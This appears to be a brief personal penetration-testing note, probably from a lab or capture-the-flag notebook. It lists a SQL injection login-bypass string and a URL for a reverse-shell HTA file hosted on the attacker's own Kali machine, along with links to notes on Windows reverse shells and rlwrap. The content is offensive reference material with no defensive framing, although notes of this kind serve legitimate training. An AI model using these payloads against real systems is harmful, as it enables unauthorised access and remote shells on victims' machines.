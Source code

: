 
Auth bypass:

```
admin' or '1'='1'--
```

reverse hta file:

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[1._Reverse Shells (WIN)#hta file]]

[[rlwrap]]

```
URL: http://$KALI/reverse.hta
```

